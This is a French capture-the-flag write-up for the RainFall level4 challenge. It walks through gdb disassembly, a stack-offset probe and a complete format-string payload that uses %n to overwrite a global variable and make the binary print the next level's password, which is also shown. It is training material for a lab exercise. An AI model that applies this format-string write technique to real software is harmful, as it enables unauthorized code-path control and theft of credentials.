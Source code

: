 # Level 4

Nous avons un exécutable similaire au niveau précédent.

Cette fois-ci le code est séparé en 3 fonctions, et le printf est dans une fonction a part.
Le code affiche toujours stdin sur stdout.Nous allons utiliser la faille de printf comme precedemment.
Trouvons les adresses que nous avons besoin avec gdb.
```
(gdb) disas n
Dump of assembler code for function n:
   0x08048457 <+0>:	push   %ebp
   0x08048458 <+1>:	mov    %esp,%ebp
   0x0804845a <+3>:	sub    $0x218,%esp
   0x08048460 <+9>:	mov    0x8049804,%eax
   0x08048465 <+14>:	mov    %eax,0x8(%esp)
   0x08048469 <+18>:	movl   $0x200,0x4(%esp)
   0x08048471 <+26>:	lea    -0x208(%ebp),%eax
   0x08048477 <+32>:	mov    %eax,(%esp)
   0x0804847a <+35>:	call   0x8048350 <fgets@plt>
   0x0804847f <+40>:	lea    -0x208(%ebp),%eax
   0x08048485 <+46>:	mov    %eax,(%esp)
   0x08048488 <+49>:	call   0x8048444 <p>
   0x0804848d <+54>:	mov    0x8049810,%eax <== adresse de m
   0x08048492 <+59>:	cmp    $0x1025544,%eax
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	movl   $0x8048590,(%esp)
   0x080484a0 <+73>:	call   0x8048360 <system@plt>
   0x080484a5 <+78>:	leave
   0x080484a6 <+79>:	ret
End of assembler dump.
```
ici l'adresse de "m" est 0x8049810, et le contenu est comparé avec "$0x1025544" pour exécuter la commande system("/bin/cat /home/user/level5/.pass").
Il ne manque plus qu'a trouver la place du buffer ou nous pouvons controler l'execution du programme.
```
(gdb) run
Starting program: /home/user/level4/level4
AAAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.
AAAAAb7ff26b0.bffff764.b7fd0ff4.0.0.bffff728.804848d.bffff520.200.b7fd1ac0.b7ff37d0.41414141
```
Ici le 12e élément.
Nous n'avons plus qu'a injecter le payload suivant:
```
python -c 'print("\x10\x98\x04\x08" + "%16930111x" + " %12$n")' > /tmp/exploit1
```
"%16930111x" : le nombre d'espace que dois compter %n pour set "m".
0x1025544 aurait du faire en décimal 16930116 - 4 = 16930112. Sur gdb ca fonctionnait mais en dehors de gdb pour l'exécution j'ai du mettre "16930111".
```
level4@RainFall:~$ python -c 'print("\x10\x98\x04\x08" + "%16930111x" + " %12$n")' > /tmp/exploit1
cat /tmp/exploit1 | /home/user/level4/level4
                                                                                b7ff26b0
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```